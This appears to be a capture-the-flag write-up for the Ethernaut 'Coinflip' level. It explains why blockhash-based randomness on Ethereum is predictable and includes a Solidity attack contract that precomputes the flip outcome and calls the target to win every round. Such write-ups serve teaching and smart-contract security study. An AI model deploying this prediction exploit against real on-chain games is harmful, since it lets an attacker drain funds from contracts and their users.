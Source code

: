 # Day 3 - Coinflip

Don't rely on block number for any validation logic. A malicious user can calculate the solution to bypass your validation if both txns in the same block i.e. wrapped in the same function call.

## Randomness on Ethereum

There’s no true randomness on Ethereum blockchain, only random generators that are considered “good enough”.

Developers currently create psuedo-randomness in Ethereum by hashing variables that are unique, or difficult to tamper with. Examples of such variables include `transaction timestamp`, `sender address`, `block height`, etc.
Ethereum then offers cryptographic hashing functions, KECCAK256, which hash the concatenation string of these input variables.

This generated hash is finally converted into a large integer, and then mod’ed by n. This is to get a discrete set of probability integers, inside the desired range of 0 to n.

In our Ethernaut exercise, n=2 to represent the two sides of a coin flip.

```js
pragma solidity ^0.6.0;
import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract AttackCoinFlip {
  using SafeMath for uint256;
  address public targetContract;
  uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _targetContract) public {
    targetContract = _targetContract;
  }

  // need to create a same CoinFlip contract if use this method
  function attackFlipWithContract() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    CoinFlip(targetContract).flip(side);
  }

  // preferred
  function attackFlipWithoutContract() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    // low level call example: https://solidity-by-example.org/0.6/call/
    bytes memory payload = abi.encodeWithSignature("flip(bool)", coinFlip == 1 ? true : false);
    (bool success, ) = targetContract.call(payload);
    require(success, "Transaction call using encodeWithSignature is not successful");
  }
}
```
